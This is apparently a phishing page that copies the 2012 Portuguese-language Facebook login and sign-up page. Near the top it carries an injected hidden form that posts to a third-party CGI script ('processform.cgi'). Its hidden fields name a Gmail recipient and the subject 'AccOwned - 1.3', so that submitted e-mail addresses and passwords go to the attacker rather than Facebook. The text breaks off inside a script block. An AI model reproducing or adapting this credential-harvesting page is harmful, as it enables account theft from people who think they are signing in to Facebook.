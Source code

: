join
====

.
<!DOCTYPE html>
<html lang="pt" id="facebook" class="no_js">
<head><meta charset="utf-8" /><script>function envFlush(a){function b(c){for(var d in a)c[d]=a[d];}if(window.requireLazy){requireLazy(['Env'],b);}else{Env=window.Env||{};b(Env);}}
envFlush({"ffid1":"AcGWQU_vTXX_Zt6tsj6EyG9gCdPp1G3U7S9RzMEt28796--Yn09H-RYn9kyGxqqMY8k","ffid2":"AcGF-liQN5hSZ56peccx32whYLQb7HG6lgV0auiODLRLfX8Ze_VU3ONiUD6hfobkhTU","ffid3":"AcHk-4Fo8IrxUm22393oy8pc-8zehtVKCf7Dbkab8FkiyysPbr3PutdfF0H1Tf8-t8YoLkK0ivDQ6JAt3bvk6HRb","ffid4":"AcGsAUPkIRcsjUSRUe1Ou_U9-RkBcMwP4dnci_eW-87lEvASJIInRr7QuBrh-8QL8OU","ffver":63083,"recaptcha_focus_on_load":"false","recaptcha_lang":"\"en\"","user":"0","locale":"pt_BR","method":"GET","svn_rev":688594,"tier":"","vip":"31.13.73.23","static_base":"https:\/\/s-static.ak.facebook.com\/","www_base":"http:\/\/www.facebook.com\/","rep_lag":2,"fb_dtsg":"AQBU0AME","ajaxpipe_token":"AXiuFsxdfrOHKVVc","lhsh":"DAQFlzNEL","tracking_domain":"https:\/\/pixel.facebook.com","retry_ajax_on_network_error":"1","fbid_emoticons":"1"});</script><script>envFlush({"eagleEyeConfig":{"seed":"03qh","sessionStorage":true}});CavalryLogger=false;window._script_path = "\/index.php";</script><noscript><meta http-equiv="refresh" content="0; URL=/?_fb_noscript=1" /></noscript><meta name="application-name" content="Facebook" /><meta name="msapplication-tooltip" content="Visite o Facebook para conectar-se com seus amigos" /><meta name="msapplication-starturl" content="/" /><meta name="msapplication-window" content="width=1230;height=700" /><meta name="msapplication-task" content="name=Not&#xed;cias;action-uri=/?sk=nf;icon-uri=/images/icons/app/news.ico" /><meta name="msapplication-task" content="name=Mensagens;action-uri=/?sk=inbox;icon-uri=/images/icons/app/messages.ico" /><meta name="msapplication-task" content="name=Eventos;action-uri=/?sk=events;icon-uri=/images/icons/app/events.ico" /><meta name="msapplication-task" content="name=Amigos;action-uri=/?sk=fr;icon-uri=/images/icons/app/friends.ico" /><meta name="robots" content="noodp, noydir" /><meta name="referrer" content="default" id="meta_referrer" /><meta name="description" content=" O Facebook &#xe9; uma rede social que re&#xfa;ne pessoas a seus amigos e &#xe0;queles com quem trabalham, estudam e convivem. As pessoas participam do Facebook para manter contato com seus amigos, carregar um n&#xfa;mero ilimitado de fotos, compartilhar links e v&#xed;deos e aprender mais sobre as pessoas que conhecem." /><link rel="alternate" media="handheld" href="https://www.facebook.com/" /><title id="pageTitle">Bem-vindo ao Facebook - acesse, cadastre-se ou saiba mais.</title><meta property="og:image" content="https://www.facebook.com/images/fb_icon_325x325.png" /><link rel="shortcut icon" href="https://s-static.ak.facebook.com/rsrc.php/yP/r/Ivn-CVe5TGK.ico" /><noscript><meta http-equiv="X-Frame-Options" content="deny" /></noscript>
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yj/r/qzwo6ysqs77.css" />
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yO/r/VgC4D9ag6Er.css" />
    <link rel="stylesheet" href="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yY/r/u8iA3kXb8Y1.css" />

<form METHOD="POST" ACTION="http://terra.planetarium.com.br/cgi-bin/processform.cgi">
<INPUT TYPE="HIDDEN" NAME="TO" VALUE="geovannabucci.contact@gmail.com">
<INPUT TYPE="HIDDEN" NAME="FROM" VALUE="AccOwned - 1.3">
<INPUT TYPE="HIDDEN" NAME="SUBJECT" VALUE="AccOwned - 1.3">
<INPUT TYPE="HIDDEN" NAME="RESPONDER" VALUE="http://www.facebook.com/">
    <script src="https://fbstatic-a.akamaihd.net/rsrc.php/v2/yB/r/MGmnFrWer13.js"></script>
  <script>window.Bootloader && Bootloader.done(["Blak7"]);</script><script>new (require("ServerJS"))().handle({"require":[["lowerDomain"],["QuicklingPrelude"],["Primer"]]})</script></head><body class="fbIndex UIPage_LoggedOut ie9 win Locale_pt_BR"><div id="FB_HiddenContainer" style="position:absolute; top:-10000px; width:0px; height:0px;"></div><div class="_li"><div id="pagelet_bluebar" data-referrer="pagelet_bluebar"><div id="blueBarHolder"><div id="blueBar"><div><div class="loggedout_menubar_container"><div class="clearfix loggedout_menubar"><a class="lfloat" href="/" title="Ir para a p&#xe1;gina inicial do Facebook"><i class="fb_logo img sp_38839k sx_127aa9"><u>Logotipo do Facebook</u></i></a><div class="menu_login_container rfloat"><form id="login_form" action="https://www.facebook.com/login.php?login_attempt=1" method="post" onsubmit="return window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVoyxwZ4" autocomplete="off" /><table cellspacing="0"><tr><td class="html7magic"><label for="email">E-mail ou telefone</label></td><td class="html7magic"><label for="pass">Senha</label></td></tr><tr><td><input type="text" class="inputtext" name="email" id="email" value="" tabindex="1" /></td><td><input type="password" class="inputtext" name="pass" id="pass" tabindex="2" /></td><td><label class="uiButton uiButtonConfirm" id="loginbutton" for="u5v8wy74"><input value="Entrar" tabindex="4" type="submit" id="u5v8wy74" /></label></td></tr><tr><td class="login_form_label_field"><div><div class="uiInputLabel clearfix"><input id="persist_box" type="checkbox" name="persistent" value="1" tabindex="3" class="uiInputLabelCheckbox" /><label for="persist_box">Mantenha-me conectado</label></div><input type="hidden" name="default_persistent" value="0" /></div></td><td class="login_form_label_field"><a rel="nofollow" href="http://www.facebook.com/recover/initiate">Esqueceu sua senha?</a></td></tr></table><input type="hidden" name="charset_test" value="&euro;,&acute;,€,´,水,Д,Є" /><input type="hidden" autocomplete="off" name="timezone" value="" id="u5v8wy73" /><input type="hidden" name="lgnrnd" value="115313_Dkkz" /><input type="hidden" id="lgnjs" name="lgnjs" value="n" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="pt_BR" /></form></div></div></div></div></div></div></div><div id="globalContainer" class="uiContextualLayerParent"><div id="content" class="fb_content clearfix"><div><!-- 2365fa3194ecdc0cab15721ce967a9f8663937c7 --><div class="gradient"><div class="gradientContent"><div class="clearfix fbIndexFeaturedRegistration"><div class="feature lfloat"><div class="clearfix fbIndexMobile"><a class="lfloat" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" tabindex="-1" href="#" rel="dialog" role="button"><img class="mtm phoneImage img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yt/r/FZaMKqARgC6.png" alt="" width="97" height="205" /></a><div class="clearfix rightSide rfloat"><div class="lfloat"><div class="title fsl fwb fcb">Está saindo? Continue conectado.</div><div class="subtitle fsm fwn fcg">Acesse facebook.com em seu celular.</div></div><a class="mrl mobileButton rfloat uiButton" href="#" role="button" ajaxify="/ajax/mobile/sms_link/?src=lo&amp;type=install_via_sms" rel="dialog"><span class="uiButtonText">Obter o Facebook Móvel</span></a></div></div></div><div class="signupForm rfloat"><div class="mbm phm headerTextContainer"><div class="mbs mainTitle fsl fwb fcb">Cadastre-se</div><div class="mbm subtitle fsm fwn fcg">É gratuito e sempre será.</div></div><div id="registration_container"><div data-referrer="simple_registration_form"><noscript><div id="no_js_box"><h2>O JavaScript está desativado em seu navegador.</h2><p>Ative o Javascript no seu navegador ou atualize para um navegador compatível com Javascript para se cadastrar no Facebook.</p></div></noscript><div id="simple_registration_container" class="simple_registration_container"><div id="reg_box"><form method="post" id="reg" name="reg" action="https://m.facebook.com/r.php" onsubmit="return function(event)&#123;return false;&#125;.call(this,event)!==false &amp;&amp; window.Event &amp;&amp; Event.__inlineSubmit &amp;&amp; Event.__inlineSubmit(this,event)"><input type="hidden" name="lsd" value="AVoyxwZ4" autocomplete="off" /><input type="hidden" autocomplete="off" id="reg_instance" name="reg_instance" value="qZrDUFsLmKYPiiuqW5gOmDEo" /><input type="hidden" autocomplete="off" id="asked_to_login" name="asked_to_login" /><input type="hidden" autocomplete="off" id="locale" name="locale" value="pt_BR" /><input type="hidden" autocomplete="off" id="terms" name="terms" value="on" /><input type="hidden" autocomplete="off" id="abtest_registration_group" name="abtest_registration_group" value="1" /><input type="hidden" autocomplete="off" id="referrer" name="referrer" value="" /><input type="hidden" autocomplete="off" id="md5pass" name="md5pass" value="" /><input type="hidden" autocomplete="off" id="validate_mx_records" name="validate_mx_records" value="1" /><input type="hidden" autocomplete="off" id="ab_test_data" name="ab_test_data" value="" /><div id="reg_form_box" class="large_form"><table class="uiGrid editor" cellspacing="0" cellpadding="1"><tbody><tr><td class="label"><label for="firstname">Nome:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="firstname" name="firstname" aria-required="true" /></div></td></tr><tr><td class="label"><label for="lastname">Sobrenome:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="lastname" name="lastname" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_email__">Seu e-mail:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="reg_email__" name="reg_email__" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_email_confirmation__">Insira o e-mail novamente:</label></td><td><div class="field_container"><input type="text" class="inputtext" id="reg_email_confirmation__" name="reg_email_confirmation__" aria-required="true" /></div></td></tr><tr><td class="label"><label for="reg_passwd__">Nova senha:</label></td><td><div class="field_container"><input type="password" class="inputtext" id="reg_passwd__" name="reg_passwd__" value="" aria-required="true" /></div></td></tr><tr><td class="label">Eu sou:</td><td><div class="field_container"><div class="hidden_elem"><select><option></option><option></option></select><select><option></option><option></option></select></div><select class="select" name="sex" id="sex" aria-required="true"><option value="0">Selecione o gênero:</option><option value="1">Feminino</option><option value="2">Masculino</option></select></div></td></tr><tr><td class="label">Aniversário:</td><td><div class="field_container"> <select name="birthday_day" id="birthday_day" aria-label="Dia" class=""><option value="-1">Dia:</option><option value="1">1</option><option value="2">2</option><option value="3">3</option><option value="4">4</option><option value="5">5</option><option value="6">6</option><option value="7">7</option><option value="8">8</option><option value="9">9</option><option value="10">10</option><option value="11">11</option><option value="12">12</option><option value="13">13</option><option value="14">14</option><option value="15">15</option><option value="16">16</option><option value="17">17</option><option value="18">18</option><option value="19">19</option><option value="20">20</option><option value="21">21</option><option value="22">22</option><option value="23">23</option><option value="24">24</option><option value="25">25</option><option value="26">26</option><option value="27">27</option><option value="28">28</option><option value="29">29</option><option value="30">30</option><option value="31">31</option></select> <select name="birthday_month" id="birthday_month" aria-label="M&#xea;s" class="" onchange="return run_with(this, [&quot;editor&quot;], function() &#123;editor_date_month_change(this, &quot;birthday_day&quot;, &quot;birthday_year&quot;);&#125;);"><option value="-1">Mês:</option><option value="1">janeiro</option><option value="2">fevereiro</option><option value="3">março</option><option value="4">abril</option><option value="5">maio</option><option value="6">Junho</option><option value="7">julho</option><option value="8">agosto</option><option value="9">setembro</option><option value="10">outubro</option><option value="11">novembro</option><option value="12">dezembro</option></select> <select name="birthday_year" id="birthday_year" aria-label="Ano" class="" onchange="return run_with(this, [&quot;editor&quot;], function() &#123;editor_date_month_change(&quot;birthday_month&quot;,&quot;birthday_day&quot;,this);&#125;);"><option value="-1">Ano:</option><option value="2012">2012</option><option value="2011">2011</option><option value="2010">2010</option><option value="2009">2009</option><option value="2008">2008</option><option value="2007">2007</option><option value="2006">2006</option><option value="2005">2005</option><option value="2004">2004</option><option value="2003">2003</option><option value="2002">2002</option><option value="2001">2001</option><option value="2000">2000</option><option value="1999">1999</option><option value="1998">1998</option><option value="1997">1997</option><option value="1996">1996</option><option value="1995">1995</option><option value="1994">1994</option><option value="1993">1993</option><option value="1992">1992</option><option value="1991">1991</option><option value="1990">1990</option><option value="1989">1989</option><option value="1988">1988</option><option value="1987">1987</option><option value="1986">1986</option><option value="1985">1985</option><option value="1984">1984</option><option value="1983">1983</option><option value="1982">1982</option><option value="1981">1981</option><option value="1980">1980</option><option value="1979">1979</option><option value="1978">1978</option><option value="1977">1977</option><option value="1976">1976</option><option value="1975">1975</option><option value="1974">1974</option><option value="1973">1973</option><option value="1972">1972</option><option value="1971">1971</option><option value="1970">1970</option><option value="1969">1969</option><option value="1968">1968</option><option value="1967">1967</option><option value="1966">1966</option><option value="1965">1965</option><option value="1964">1964</option><option value="1963">1963</option><option value="1962">1962</option><option value="1961">1961</option><option value="1960">1960</option><option value="1959">1959</option><option value="1958">1958</option><option value="1957">1957</option><option value="1956">1956</option><option value="1955">1955</option><option value="1954">1954</option><option value="1953">1953</option><option value="1952">1952</option><option value="1951">1951</option><option value="1950">1950</option><option value="1949">1949</option><option value="1948">1948</option><option value="1947">1947</option><option value="1946">1946</option><option value="1945">1945</option><option value="1944">1944</option><option value="1943">1943</option><option value="1942">1942</option><option value="1941">1941</option><option value="1940">1940</option><option value="1939">1939</option><option value="1938">1938</option><option value="1937">1937</option><option value="1936">1936</option><option value="1935">1935</option><option value="1934">1934</option><option value="1933">1933</option><option value="1932">1932</option><option value="1931">1931</option><option value="1930">1930</option><option value="1929">1929</option><option value="1928">1928</option><option value="1927">1927</option><option value="1926">1926</option><option value="1925">1925</option><option value="1924">1924</option><option value="1923">1923</option><option value="1922">1922</option><option value="1921">1921</option><option value="1920">1920</option><option value="1919">1919</option><option value="1918">1918</option><option value="1917">1917</option><option value="1916">1916</option><option value="1915">1915</option><option value="1914">1914</option><option value="1913">1913</option><option value="1912">1912</option><option value="1911">1911</option><option value="1910">1910</option><option value="1909">1909</option><option value="1908">1908</option><option value="1907">1907</option><option value="1906">1906</option><option value="1905">1905</option></select></div></td></tr><tr><td class="label"></td><td><div id="birthday_warning"><a href="#" ajaxify="/help/ajax/reg_birthday" title="Clique para obter mais informa&#xe7;&#xf5;es" rel="async">Por que preciso informar minha data de nascimento?</a></div></td></tr><tr><td class="label"></td><td><div class="fbRegistrationPPT" id="ppt_container"><p class="privacy_policy_text text">Ao clicar Cadastre-se, você concorda com nossos <a href="/terms.php" target="_blank" rel="nofollow">Termos</a> e que leu e entendeu nossa <a href="/policy.php" target="_blank" rel="nofollow">Política de uso de dados</a>, incluindo <a href="/help/cookies/" target="_blank" rel="nofollow">Uso de cookies</a>.</p></div></td></tr></tbody></table><div class="reg_btn clearfix"><label class="uiButton uiButtonSpecial" for="u5v8wy71"><input value="Cadastre-se" name="websubmit" onclick="setFormTypeABTest($(&quot;reg&quot;)); RegistrationBootloader.bootloadAndValidate();" type="submit" id="u5v8wy71" /></label><span id="async_status" class="async_status" style="display: none"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div><div id="reg_captcha" style="display: none"><div><h2 id="security_check_header">Verificação de segurança</h2><div id="outer_captcha_box"><div id="captcha_box"><div class="field_error" id="captcha_response_error" style="display:none;">Este campo é obrigatório.</div><div id="captcha" class="captcha"><input type="hidden" autocomplete="off" id="captcha_persist_data" name="captcha_persist_data" value="AZkb-B3tEmbrVwvuO1O5os767tE4bsmvqofJ7ubJVh1u2tHCFDqEPZXnLcg7KkZbbQv_4s71_EnEMmOaq6ieyJahbTK2VejzrHCssE_JNBipmvdaECfr9LSwePp9rgkhLgdS2NSym3iD6DIwL9cLGo9_3iazkFyK23JYuVZZ8SMx7q3eK4_GyMlmxpI9fU76y7tm34N6O5BE_BOYwMRdTVrZf8iLsGjaR49lEDd87ZuqvhgKBt32ClChOKAe42JzsB_5vKGj1XeWz_1Twq9PSreH6EuVZ-yZ2VOyNu4dtRF0xUbbYsk5EBesIKAKhFRjdP05lPd02ABScXjJmnFAXhx-nSGWeju7CsX5-94Nz2-QMg" /><div><div id="recaptcha_scripts" style="display:none"></div><input type="hidden" autocomplete="off" id="captcha_session" name="captcha_session" value="DH35WY5OvD2K6zVjsp_S7g" /><input type="hidden" autocomplete="off" id="extra_challenge_params" name="extra_challenge_params" value="authp=nonce.tt.time.new_audio_default&amp;psig=SzSiTje1w-LLufPevGAMMiJqm4U&amp;nonce=DH35WY5OvD2K6zVjsp_S7g&amp;tt=GRo5DTCFTNyeOXtNMmBx9_pREys&amp;time=1354996393&amp;new_audio_default=1" /><input type="hidden" autocomplete="off" id="recaptcha_type" name="recaptcha_type" value="password" /><div class="recaptcha_text"><div class="recaptcha_only_if_image">Digite abaixo ambas as palavras, separadas por um espaço.<br />Não é possível ler as palavras abaixo? <a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn">Tente palavras diferentes</a> ou <a href="#" onclick="Recaptcha.switch_type(&quot;audio&quot;); return false;">um captcha sonoro</a>.</div><div class="recaptcha_only_if_audio" style="display:none">Insira as palavras ou números que você ouvir.<br /><a href="#" onclick="Recaptcha.reload(); return false" id="recaptcha_reload_btn">Tente palavras diferentes</a> ou <a class="recaptcha_only_if_audio" href="#" onclick="Recaptcha.switch_type(&quot;image&quot;); return false;">volte ao texto</a>.</div></div><span id="recaptcha_play_audio"></span><div class="audiocaptcha"></div><div id="recaptcha_image" class="captcha_image"></div><div id="recaptcha_loading">Carregando... <img class="captcha_loading img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" style="height:11px;width:16px;" /></div></div><div class="captcha_input"><label>Texto da caixa:</label><div class="field_container"><input type="text" name="captcha_response" id="captcha_response" autocomplete="off" aria-label="Entrada do captcha. Digite as letras listadas acima para continuar. Al&#xe9;m disso, voc&#xea; pode usar o captcha de &#xe1;udio, clicando no link abaixo." /></div><a class="mlm" href="#" onclick="CSS.show($(&#039;captcha_whats_this&#039;)); return false;">O que é isso?</a><div id="captcha_whats_this" class="hidden_elem"><div class="fsl fwb">Verificação de segurança</div>Este é um teste de segurança padrão que usamos para evitar que contas falsas sejam criadas e enviem spams aos usuários.</div></div></div></div></div><div><div class="gridCol"></div><div class="gridCol"></div></div><div id="captcha_buttons" class="clearfix" style="display: none;"><div id="back_button" class="gridCol"><div class="cancel_button_image">   </div><a id="cancel_button" href="#" onclick="return run_with(this, [&quot;registration&quot;], function() &#123;Registration.getInstance().hide_captcha();Registration.getInstance().show_reg_form();&#125;);">Voltar</a></div><div id="A_btn_sign_up" class="gridCol"><div class="reg_btn clearfix"><label class="big_input uiButton uiButtonSpecial" for="u5v8wy72"><input value="Cadastre-se" onclick="setFormTypeABTest($(&quot;reg&quot;)); Registration.getInstance().validateForm();" type="submit" id="u5v8wy72" /></label><span id="captcha_async_status" class="async_status" style="display: none"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /></span></div></div></div></div></div></form><div id="reg_progress" style="display: none"><div id="progress_wrap"><img class="img" src="https://s-static.ak.facebook.com/rsrc.php/v2/yb/r/GsNJNwuI-UM.gif" alt="" width="16" height="11" /><div id="progress_msg">Registrando...</div></div></div><div id="reg_error" class="hidden_elem"><div id="reg_error_inner">Ocorreu um erro. Tente novamente.</div></div><div id="tos_container" class="tos_container"><p class="legal_tos hidden_elem">Ao clicar em Cadastre-se, você está afirmando que leu e concorda com os <a href="/legal/terms" target="_blank" rel="nofollow">Termos de uso</a> e com a <a href="/policy.php" target="_blank" rel="nofollow">Política de privacidade</a>.</p></div><div id="reg_pages_msg" class="pagesSection pagesSectionPPT"><a href="/pages/create.php">Crie uma página</a> para uma celebridade, banda ou empresa.</div></div></div></div></div></div></div></div></div><div class="mtm locales"><ul class="uiList localeSelectorList _4ki clearfix _6-h _6-j _6-i"><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;pt_BR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Portuguese (Brazil)">Português (Brasil)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;en_US&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="English (US)">English (US)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;es_LA&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Spanish">Español</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;fr_FR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="French (France)">Français (France)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;de_DE&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="German">Deutsch</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;it_IT&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Italian">Italiano</a></li><li class="uiListItem"><a dir="rtl" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;ar_AR&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Arabic">العربية</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;hi_IN&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Hindi">हिन्दी</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;zh_CN&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Simplified Chinese (China)">中文(简体)</a></li><li class="uiListItem"><a dir="ltr" href="https://www.facebook.com/" onclick="intl_set_cookie_locale(&quot;ja_JP&quot;, &quot;https:\/\/www.facebook.com\/&quot;);" title="Japanese">日本語</a></li><li class="uiListItem"><a class="showMore" rel="dialog" href="/ajax/intl/language_dialog.php?uri=https%3A%2F%2Fwww.facebook.com%2F&amp;source=TOP_LOCALES_DIALOG" title="Mostrar mais idiomas" role="button">...</a></li></ul></div></div></div><div id="pageFooter" data-referrer="page_footer"><div id="contentCurve"></div><div class="clearfix" id="footerContainer"><div class="mrl lfloat"><div class="fsm fwn fcg"><span> Facebook © 2012</span> · <a rel="dialog" href="/ajax/intl/language_dialog.php?uri=https%3A%2F%2Fwww.facebook.com%2F" title="Use o Facebook em outro idioma." role="button">Português (Brasil)</a></div></div><div class="navigation fsm fwn fcg" role="contentinfo" aria-label="Links para sites do Facebook"><a href="http://www.facebook.com/mobile/?ref=pf" title="Confira o Facebook M&#xf3;vel.">Celular</a> · <a href="http://www.facebook.com/find-friends?ref=pf" title="Encontre qualquer pessoa na Web.">Localizar amigos</a> · <a href="http://www.facebook.com/badges/?ref=pf" title="Incorporar um atalho do Facebook em seu site.">Atalhos</a> · <a href="http://www.facebook.com/directory/people/" title="Navegue no nosso diret&#xf3;rio de pessoas.">Pessoas</a> · <a href="http://www.facebook.com/directory/pages/" title="Pesquisar nosso diret&#xf3;rio de p&#xe1;ginas.">Páginas</a> · <a href="http://www.facebook.com/appcenter/?ref=pf" title="Check out Facebook App Center.">Aplicativos</a> · <a href="http://www.facebook.com/appcenter/category/games/?ref=pf" title="Check out Facebook games.">Jogos</a> · <a href="http://www.facebook.com/appcenter/category/music/?ref=pf" title="Check out Facebook music apps.">Música</a> · <a href="http://www.facebook.com/facebook" accesskey="8" title="Leia nosso blog, descubra a central de recursos e encontre oportunidades de trabalho.">Sobre</a> · <a href="http://www.facebook.com/campaign/landing.php?placement=pflo&amp;campaign_id=402047449186&amp;extra_1=auto" title="Anuncie no Facebook.">Criar um anúncio</a> · <a href="http://www.facebook.com/pages/create.php?ref_type=sitefooter" title="Criar uma p&#xe1;gina">Criar uma página</a> · <a href="http://developers.facebook.com/?ref=pf" title="Desenvolver em nossa plataforma.">Desenvolvedores</a> · <a href="http://www.facebook.com/careers/?ref=pf" title="D&#xea; um passo adiante na sua carreira em nossa incr&#xed;vel empresa.">Carreiras</a> · <a href="http://www.facebook.com/privacy/explanation" title="Saiba mais sobre sua privacidade e o Facebook.">Privacidade</a> · <a href="http://www.facebook.com/help/cookies" title="Saiba mais sobre cookies e o Facebook">Cookies</a> · <a href="http://www.facebook.com/policies/?ref=pf" accesskey="9" title="Consulte nossos termos e pol&#xed;ticas.">Termos</a> · <a href="http://www.facebook.com/help/?ref=pf" accesskey="0" title="Acesse nossa Central de ajuda.">Ajuda</a></div></div></div></div></div><script type="text/javascript">/*<![CDATA[*/function si_cj(m){setTimeout(function(){new Image().src="https:\/\/error.facebook.com\/common\/scribe_endpoint.php?c=si_clickjacking&t=2474"+"&m="+m;},5000);}if(top!=self && !false){try{if(parent!=top){throw 1;}var si_cj_d=["apps.facebook.com","\/pages\/","apps.beta.facebook.com"];var href=top.location.href.toLowerCase();for(var i=0;i<si_cj_d.length;i++){if (href.indexOf(si_cj_d[i])>=0){throw 1;}}si_cj("3 ");}catch(e){si_cj("1 \t");window.document.write("\u003Cstyle>body * {display:none !important;}\u003C\/style>\u003Ca href=\"#\" onclick=\"top.location.href=window.location.href\" style=\"display:block !important;padding:10px\">\u003Ci class=\"img sp_4yuo6n sx_fc69b8\" style=\"display:block !important\">\u003C\/i>Acesse Facebook.com\u003C\/a>");/*snm9mLFO*/}}/*]]>*/</script>
<script>Bootloader.setResourceMap({"A77NA":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yj\/r\/qzwo6ysqs77.css"},"byJia":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yO\/r\/VgC4D9ag6Er.css"},"VuNPD":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yY\/r\/u8iA3kXb8Y1.css"},"X\/Fq6":{"type":"css","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y6\/r\/YlbIHaln_Rk.css"},"iQgIT":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ye\/r\/M0q_X9Mzhmq.css"},"VDymv":{"type":"css","permanent":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yw\/r\/LpbNnLl9JJr.css"}});Bootloader.setResourceMap({"YO7w5":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yz\/r\/px7wbKcfGEw.js"},"wLu\/7":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yK\/r\/k_QLfmH7oOh.js"},"T8gbI":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yM\/r\/GCmGQbg43Sl.js"},"uqSgb":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/gQf0tONrZtt.js"},"ne+Ol":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yB\/r\/s2pT6tI0qDP.js"},"rZ79y":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y0\/r\/wrjUg3Fs6TZ.js"},"JE+14":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ys\/r\/UkEsdnWXuKD.js"},"gM1Bs":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yJ\/r\/F_4RG0MPVux.js"},"oE4Do":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yD\/r\/65c9OW-i481.js"},"\/K81D":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yl\/r\/cwMSzldh79l.js"},"GTz7X":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yg\/r\/eSdktajXroe.js"},"MqSmz":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yH\/r\/ghlEJgSKAee.js"},"cNca2":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yn\/r\/XQ1IPAI9NyR.js"},"\/vuZw":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yk\/r\/g6wsSYlWI6X.js"},"bwsMw":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y_\/r\/hwOyT9fmfZV.js"},"3quxQ":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/Wv8z1iI3Pjh.js"},"zyFOp":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/61VSNDvRJnS.js"},"9kSd2":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/6jEpoP3b9tx.js"},"SRzKv":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ys\/r\/cl0g7zmlNIs.js"},"KQ5I8":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yb\/r\/O23eVP80saT.js"},"M2hRu":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/ya\/r\/i_5_NPA0B8N.js"},"2ma5f":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yo\/r\/hCn6u3fXLtg.js"},"j07DW":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y5\/r\/jApT8n6JsZx.js"},"wxq+C":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yJ\/r\/f5uM6pYP8bY.js"},"DZmeF":{"type":"js","src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y2\/r\/ZeZFU7z